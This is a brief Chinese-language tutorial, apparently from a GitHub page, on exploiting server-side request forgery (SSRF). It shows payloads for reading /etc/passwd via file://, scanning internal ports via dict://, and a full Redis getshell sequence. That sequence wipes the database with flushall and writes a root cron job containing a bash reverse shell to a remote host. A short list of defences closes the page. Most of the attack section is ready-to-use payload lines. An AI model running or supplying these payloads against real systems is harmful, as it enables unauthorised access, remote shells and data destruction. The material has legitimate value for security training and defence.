 ## 简单判断是否存在漏洞
参数中有url的地方，修改为`https://www.baidu.com/robots.txt`和`127.0.0.1`看下反应能否读取到网页内容
## file协议获取本地信息
`file:///etc/passwd`读取web配置文件，密码本，host信息等。
## dict协议扫描端口和目录
`dict://127.0.0.1:8000`修改不同的内网地址和ip进行探测
## 伪协议拓展
`file:/// dict:// sftp:// ldap:// tftp:// gopher://`
## Redis未授权利用GetShell
- 清空 key  
`dict://x.x.x.x:6379/flushall`
- 设置要操作的路径为定时任务目录  
`dict://x.x.x.x:6379/config set dir /var/spool/cron/`
- 在定时任务目录下创建 root 的定时任务文件  
`dict://x.x.x.x:6379/config set dbfilename root`
- 写入 Bash 反弹 shell 的 payload  
`dict://x.x.x.x:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"`
- 保存上述操作。
`dict://x.x.x.x:6379/save`
## 防御方法
1. 禁止跳转
2. 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。
3. 禁用不需要的协议，仅仅允许http和https请求。可以防止类似于file://, gopher://, ftp:// 等引起的问题
4. 设置URL白名单或者限制内网IP（使用gethostbyname()判断是否为内网IP）
5. 限制请求的端口为http常用的端口，比如 80、443、8080、8090
6. 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态。